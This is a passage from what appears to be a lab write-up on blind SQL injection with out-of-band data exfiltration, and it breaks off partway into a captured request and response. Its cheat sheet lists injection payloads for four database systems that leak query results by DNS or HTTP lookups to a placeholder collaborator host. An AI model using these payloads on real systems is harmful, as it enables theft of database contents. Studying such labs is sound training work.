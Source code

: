 To solve the lab, log in as the `administrator` user.

> **Note**
> 
> 
> To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
> 

### Cheat sheet

| DATABASE TYPE | QUERIES |
|---|---|
| **Oracle** | ```SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual``` |
| **Microsoft** | ```declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')``` |
| **PostgreSQL** | ```create OR replace function f() returns void as $$declare c text;declare p text;beginSELECT into p (SELECT YOUR-QUERY-HERE);c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';execute c;END;$$ language plpgsql security definer;SELECT f();``` |
| **MySQL** | The following technique works on Windows only:```SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'``` |

---

****************************************The original request****************************************

```
GET /login HTTP/2
Host: 0a4f0090043c6ad081188e380099005b.web-security-academy.net
Cookie: TrackingId=44BKSFxzZvYM8P7C; session=8AQ0YSf1f4RUiJbxP33uQoyTU9z3BY5m
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a4f0090043c6ad081188e380099005b.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

******************************************The original response******************************************

```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3182

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Blind SQL injection with out-of-band data exfiltration</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
```